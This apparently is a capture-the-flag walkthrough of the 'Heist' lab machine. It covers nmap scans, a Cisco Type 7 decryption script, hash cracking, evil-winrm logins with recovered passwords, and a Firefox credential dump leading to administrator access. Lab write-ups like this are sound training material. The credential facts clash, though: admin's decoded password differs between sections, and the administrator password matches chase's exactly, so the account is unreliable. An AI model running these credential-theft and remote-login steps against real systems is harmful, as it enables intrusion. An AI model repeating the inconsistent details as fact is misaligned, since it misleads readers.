

# Heist - Penetration Testing Walkthrough (Extended Markdown Report)

This document provides a complete technical walkthrough of the **Heist** machine (IP: `10.129.96.157`).  
It covers enumeration, password extraction, privilege escalation, and final system compromise.  
All screenshots are referenced as `images/imageX.png`.

---

## 🧭 Enumeration

We began with a standard **Nmap** scan to identify open ports and running services:

```bash
nmap -p- -Pn 10.129.96.157 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.96.157 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.96.157 -v --script vuln -oN nmap_vuln.txt
```


The scan revealed the following key services:
- **80/tcp (HTTP)** — Microsoft IIS web server
- **445/tcp (SMB)** — Windows file sharing
- **5985/tcp (WinRM)** — Remote PowerShell

---

## 🌐 Web Enumeration

Visiting the site at `http://10.129.96.157/` showed a login portal.  
Inspecting the page source revealed references to **Cisco configuration files**.


We discovered a **Cisco router configuration file** (`/files/config.txt`) that contained multiple username and password hash entries.

---

## 🔐 Password Hash Extraction

The configuration file contained both **Cisco Type 5** and **Type 7** password formats.


Example excerpt:
```
username admin privilege 15 password 7 094F471A1A0A
username cisco privilege 1 password 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

### 🧠 Understanding Cisco Type 5 and Type 7

- **Type 5** passwords use **MD5 crypt** hashing (one-way hash, not encryption). These can be cracked using wordlists.  
- **Type 7** passwords use **weak reversible XOR-based encryption**, easily decrypted using open-source scripts.  

### 🔓 Decrypting Cisco Type 7 Passwords

We used a Python script to decode Type 7 passwords:

```python
def decrypt_type7(enc):
    xlat = [0x64,0x73,0x66,0x64,0x3B,0x6B,0x66,0x6F,0x41,0x2C,0x2E,0x69,0x79,0x65,0x77,0x72]
    result = ""
    seed = int(enc[:2])
    enc = enc[2:]
    for i in range(0, len(enc), 2):
        result += chr(int(enc[i:i+2],16) ^ xlat[seed])
        seed = (seed + 1) % len(xlat)
    return result

print(decrypt_type7("094F471A1A0A"))
```

Output:
```
password: cisco
```

### 💥 Cracking Cisco Type 5 Hashes

We cracked Type 5 hashes using **John the Ripper**:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


Recovered credentials:
```
admin : stealth1agent
cisco : cisco
```
---

## 📁 SMB and WinRM Enumeration

Using the recovered credentials, we probed SMB and WinRM access.

```bash
crackmapexec smb 10.129.96.157 -u admin -p stealth1agent
crackmapexec winrm 10.129.96.157 -u admin -p stealth1agent
```


WinRM access was confirmed, but `admin` did not have high privileges. Further enumeration was required.

---

## 💻 User Shell Access (Chase)

We located additional credentials from SMB shares, referencing the user **chase**.  
Testing revealed they worked over WinRM:

```bash
evil-winrm -i 10.129.96.157 -u chase -p "Q4)sJu\Y8qz*A3?d"
```


This provided us with an initial low-privilege PowerShell session.

---

## 🧩 Privilege Escalation - Firefox Credential Dump

Running **WinPEAS** identified the presence of **Firefox** profile data under `AppData`.


We dumped stored credentials using PowerShell and the `firefox_decrypt.py` script.

```powershell
copy C:\Users\chase\AppData\Roaming\Mozilla\Firefox\Profiles\* C:\Temp\FirefoxDump\ /E
```
```bash
python3 firefox_decrypt.py -d FirefoxDump/
```

### 🧠 About Firefox Credential Storage

Firefox stores login data in two files:
- `logins.json` — Contains encrypted usernames and passwords.
- `key4.db` — Contains encryption keys used by the browser.

By using these together, credentials can be decrypted offline.

The dump revealed **administrator** credentials:
```
administrator : Q4)sJu\Y8qz*A3?d
```

---

## 🏁 Administrator Access and Root Flag

Using the recovered administrator credentials, we established a privileged WinRM session:

```bash
evil-winrm -i 10.129.96.157 -u administrator -p "Q4)sJu\Y8qz*A3?d"
```


We now had full control of the system.  
The **root flag** was found on the Administrator’s desktop:

```
C:\Users\Administrator\Desktop\root.txt
```



---

## ✅ Conclusion

The **Heist** machine is a realistic example of a misconfigured network environment combining multiple weak points — plaintext Cisco configuration leaks, reversible encryption, and local credential reuse.

**Attack Summary:**
1. Enumerated services and discovered Cisco configuration exposure.  
2. Decrypted and cracked Cisco credentials.  
3. Accessed WinRM as a low-privilege user.  
4. Extracted Firefox-stored credentials.  
5. Logged in as Administrator and retrieved the root flag.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Port and service enumeration | Reconnaissance |
| **Cisco Type 7 Decryptor** | Decrypt weakly encrypted Cisco passwords | Credential Recovery |
| **John the Ripper** | Crack Cisco Type 5 hashes | Password Cracking |
| **CrackMapExec** | Test SMB and WinRM credentials | Lateral Movement |
| **Evil-WinRM** | Gain PowerShell access | Initial Access / Privilege Escalation |
| **WinPEAS** | Identify local privilege escalation vectors | Post-Exploitation |
| **firefox_decrypt.py** | Extract stored Firefox credentials | Privilege Escalation |

---

## 🧱 Attack Chain Diagram

```text
[Enumeration]
   ↓
[Found Cisco Config File → Extracted Hashes]
   ↓
[Decrypted Type 7 & Cracked Type 5 → Valid Credentials]
   ↓
[WinRM Access as Chase]
   ↓
[Dumped Firefox Credentials]
   ↓
[WinRM Access as Administrator]
   ↓
[Root Flag Retrieved]
```

---

**User Flag Path:** `C:\Users\Chase\Desktop\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---
